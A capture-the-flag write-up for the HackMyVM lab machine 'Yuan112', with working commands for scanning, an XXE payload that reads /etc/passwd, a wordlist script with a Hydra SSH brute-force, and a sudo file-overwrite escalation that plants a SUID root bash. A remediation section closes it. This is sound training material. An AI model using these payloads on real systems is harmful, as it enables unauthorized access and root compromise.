





# Yuan112 - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackMyVM |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | 192.168.86.97 |
| **Date** | March 4, 2026 |

## 1. Executive Summary

The exploitation of the **Yuan112** machine began with the discovery of an **XML External Entity (XXE)** vulnerability in the web application, which allowed for arbitrary file disclosure. By reading `/etc/passwd`, a partially masked password was discovered. A custom Python script was developed to brute-force the missing characters, leading to SSH access as the user `tuf`. Privilege escalation was achieved by exploiting a logic flaw in a sudo shell script that allowed for **Arbitrary File Write**, which was leveraged to hijack the script's execution flow and spawn a root shell.

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning

The process began with an `arp-scan` to identify the target on the local network, followed by an OS check using `whichSystem.py`, confirming the target is a Linux machine.

```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.97

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.97 -oG allPorts
extractPorts allPorts
nmap -p22,80 -sCV 192.168.86.97 -oN target
```

**Key Findings:**

| PORT | SERVICE | VERSION |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.4p1 |
| 80 | HTTP | Apache httpd 2.4.62 |

### 2.2 Web Enumeration & XXE Discovery

The web server hosted a panel that processed XML input. I tested for **XXE Injection** by attempting to read the system's `/etc/passwd` file.



**XXE Payload:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
    <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<root>&xxe;</root>
```

The server responded with the file contents, revealing a comment next to the user `tuf` containing a masked string: `KQNPHFqG**JHcYJossIe`.



## 3. Exploitation (Foothold)

### 3.1 Password Brute-Forcing

The string `KQNPHFqG**JHcYJossIe` appeared to be a password with two missing characters. A Python script was written to generate all possible combinations for the `**` placeholders using alphanumeric characters.

```python
#!/bin/python3
import string
import itertools

base_pattern = "KQNPHFqG**JHcYJossIe"
possible_chars = string.ascii_letters + string.digits

def generate_combinations(pattern):
        combinations = []
        for combo in itertools.product(possible_chars, repeat=2):
                char_fill = "".join(combo)
                new_pass = pattern.replace("**", char_fill)
                combinations.append(new_pass)
        return combinations

passwords = generate_combinations(base_pattern)
with open("yuan112dic.txt", "w") as f:
        for pw in passwords:
                f.write(pw + "\n")
```

With the generated wordlist, Hydra identified the correct SSH password:

```bash
python3 dic.py
hydra -l tuf -P yuan112dic.txt ssh://192.168.86.97 -t 64
```



And with that password I entered the machine.
```bash
ssh tuf@192.168.86.97
cat user.txt
```

## 4. Privilege Escalation

### 4.1 Script Analysis

Checking sudo permissions revealed:

```bash
tuf@112:~$ sudo -l
Matching Defaults entries for tuf on 112:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tuf may run the following commands on 112:
    (ALL) NOPASSWD: /opt/112.sh
```

The `/opt/112.sh` script accepts a URL parameter (`-u`) and an optional output file (`-o`). It validates that URLs start with `https://maze-sec.com/` but redirects output using `>`, creating an **Arbitrary File Write** vulnerability.

```bash
#/opt/112.sh script
#!/bin/bash
input_url=""
output_file=""
use_file=false
regex='^https://maze-sec.com/[a-zA-Z0-9/]*$'
while getopts ":u:o:" opt; do
    case ${opt} in
        u) input_url="$OPTARG" ;;
        o) output_file="$OPTARG"; use_file=true ;;
        \?) echo "错误: 无效选项 -$OPTARG"; exit 1 ;;
        :) echo "错误: 选项 -$OPTARG 需要一个参数"; exit 1 ;;
    esac
done
if [[ -z "$input_url" ]]; then
    echo "错误: 必须使用 -u 参数提供URL"
    exit 1
fi
if [[ ! "$input_url" =~ ^https://maze-sec.com/ ]]; then
    echo "错误: URL必须以 https://maze-sec.com/ 开头"
    exit 1
fi
if [[ ! "$input_url" =~ $regex ]]; then
    echo "错误: URL包含非法字符，只允许字母、数字和斜杠"
    exit 1
fi
if (( RANDOM % 2 )); then
    result="$input_url is a good url."
else
    result="$input_url is not a good url."
fi
if [ "$use_file" = true ]; then
    echo "$result" > "$output_file"
    echo "结果已保存到: $output_file"
else
    echo "$result"
fi
```

### 4.2 Exploiting Arbitrary File Write

Since the script runs as root, it could be used to overwrite any file. The strategy was to overwrite the script itself with a malicious payload that grants a root bash shell.
I bypassed the regex requirements by creating a directory structure in /tmp that mimics the expected URL and then used the -o flag to overwrite /opt/112.sh.

```bash
mkdir -p "/tmp/https:/maze-sec.com/tools"
echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash' > "/tmp/https:/maze-sec.com/tools/pwn"
chmod +x "/tmp/https:/maze-sec.com/tools/pwn"

sudo /opt/112.sh -u "https://maze-sec.com/tools/pwn" -o /opt/112.sh
```
Now, the content of /opt/112.sh is simply: https://maze-sec.com/tools/pwn is a not good url.
Because /tmp/https:/maze-sec.com/tools/pwn is a valid path on the filesystem, executing the now-corrupted /opt/112.sh as root triggers the execution of our malicious path if the shell attempts to interpret it. By executing the script again and then running our SUID bash:
```bash
sudo /opt/112.sh
/tmp/rootbash -p
```

This successfully spawned a root shell.



## 5. Flags & Proof

tuf



root


## 6. Remediation & Hardening

- **Disable XXE:** Configure XML parsers to disable DTDs and external entity expansion.
- **Secure Sudo Scripts:** Avoid allowing sudo execution of scripts that permit arbitrary file writes or use unvalidated file paths.
- **Credential Hygiene:** Never store passwords or hints in system files like `/etc/passwd`.
- **Restrict /tmp:** Mount `/tmp` with `noexec` to prevent execution of uploaded scripts.

---

Authored by: Brutotes
[⬅️ Back to Home](../../README.md)
